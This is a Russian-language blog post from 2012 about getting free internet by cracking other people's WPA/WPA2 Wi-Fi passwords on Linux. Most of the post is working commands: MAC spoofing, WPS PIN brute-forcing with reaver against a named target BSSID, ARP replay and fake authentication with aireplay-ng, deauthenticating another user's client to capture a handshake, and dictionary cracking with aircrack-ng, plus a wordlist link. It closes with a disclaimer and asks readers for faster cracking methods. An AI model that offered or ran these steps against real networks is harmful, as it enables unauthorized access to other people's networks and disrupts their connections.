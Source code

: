 ```yaml
---
layout: post
title: Неприступный wi-fi
date: 2012-08-08 08:15
tags: [web, linux]
slug: wi-fi
author: redVi
summary: Рассмотрим две хитрых программы, способные раскрасить наши беспросветные будни яркими красками.
---
```


Казалось бы, нет денег &mdash; нет интернета, путь к светлой беспроводной мечте закрыт и ничего здесь не попишешь. Но мы пойдём другим путём &mdash; обходным. Рассмотрим две хитрых программы, способные раскрасить наши беспросветные будни яркими красками. Всё нижеизложенное осуществлялось под управлением ОС Linux, но в Windows одна из используемых программ имеется точно и имя ей `aircrack-ng`.

<b>Задача:</b> получение пароля точки доступа WPA/PSK или WPA2/PSK.

Предполагаемый алгоритм решения:

## Меняем мак-адрес:

```console
# ifconfig wlan0 hw ether 00:00:00:00:00:00
```

где 00:00:00:00:00:00 &mdash; ваш новый MAC-адрес.

При следующем входе в систему настройки будут сброшены.

Поднимаем сеть:

```console
# ifconfig wlan0 up
```

## Создаём виртуальный интерфейс:

```console
# airmon-ng start wlan0
```

Заработает виртуальный интерфейс в режиме мониторинга, как правило он носит название mon0. Теперь необходимо просканировать сеть и выбрать предполагаемую жертву, дабы получить BSSID сети.

## Начинаем прослушивать эфир:

```console
# airodump-ng mon0
```

![mon0](http://1.bp.blogspot.com/-IWElfzIH6tU/UCF15qF1ySI/AAAAAAAABJM/mn3KesP73EA/s1600/aircrack-ng.png)

### Использование утилиты reaver

Получив необходимые сведения, вписываем их вместо подчёркнутых

```console
$ sudo reaver -i mon0 -b 20:4E:7F:37:73:82 --channel 1 -vv
```

* mon0 - наш виртуальный интерфейс
* ключ -b обозначает BSSID точки доступа
* channel 1 - пробуем достучаться до первого "канала"
* vv - расширенный вывод - нас будут уведомлять о происходящем

Какой канал использует наш удалённый друг мы можем видеть в поле `CH`.

Если всё складывается удачно, вывод должен быть примерно таким:

```
[+] Switching mon0 to channel 1
[+] Waiting for beacon from 20:4E:7F:37:73:82
[+] Associated with 20:4E:7F:37:73:82 (ESSID: marisha24)
[+] Trying pin 12345670
```

Вот и всё. Теперь остаётся только долго ждать пока нам на блюдечке не поднесут нужные сведения. Автором сего поста был использован именно этот метод, как наиболее простой. Нижеприведённые на текущий момент носят сугубо теоретический характер.

### Путь второй: продолжаем эксперименты с `aircrack-ng`

```console
# airodump-ng --channel 1 --write networks.dump mon0
```

* где 1 - номер канала
* networks.dump - файл, в который будет сохранён результат

В другой консоли начинаем повтор ARP-пакетов:

```console
# aireplay-ng --fakeauth 1 mon0 -e "linksys"
# aireplay-ng --arpreplay mon0 -e "linksys"
```

* где "linksys" - ESSID (имя) сети

Возможно, понадобится ввести и BSSID, в данном случае для этого служит ключ `-a`:

```console
$ sudo aireplay-ng --fakeauth 1 mon0 -e dan9iekb -a FC:75:16:CC:20:D8
```

и так далее

Когда ARP-пакет будет найдет, программа начнет повторять его в эфир.

Как только наберется достаточное количество пакетов (поле DATA, 30.000 пакетов должно быть достаточно), в следующей консоли подбираем пароль:

```console
# aircrack-ng networks.dump
```

Ну и ждём, соответственно. Занятие это долгое, параллельно на другой машине успеете [поставить gentoo](http://www.unix-lab.org/posts/install-gentoo/). И не только поставить, а даже настроить =)

Либо ещё способ с тем же `aircrack`, опишу с нуля, дабы не запутать читателя:

```console
# airodump-ng mon0 - высматриваем жертву
# airodump-ng -c 1 --bssid FC:75:16:CC:20:D8 -w data mon0 -  собираем данные о конкретной точке
```

Заставляем клиента переинициализироваться в сети:

```console
# aireplay-ng -deauth 3 -a MAC_AP -c MAC_Client mon0
```

* где MAC_AP - ваш мак-адрес
* MAC_Client - адрес "того парня"

Способ хорош тем, что не придётся накапливать пакеты

```console
# aircrack-ng -w wordlist capture_file
```

* где wordlist – ваш словарь
* capture_file – файл с данными, с расширением cap

Словари можно стянуть по адресу:

<http://ftp.se.kde.org/pub/security/tools/net/Openwall/wordlists>

<b>P.S.</b> Автор не несёт ответственности за ваши действия. Вся информация предоставлена исключительно в ознакомительных целях. Автор не использует полученные в результате эксперимента сведения, не разглашает их и даже не помнит. Не смотря на это ввиду любопытности темы всем сведующим лицам предлагается вносить свои правки и дополнения в комментариях: это может быть более лучший/быстрый метод взлома, могут быть ссылки на качественные словари &mdash; что угодно.

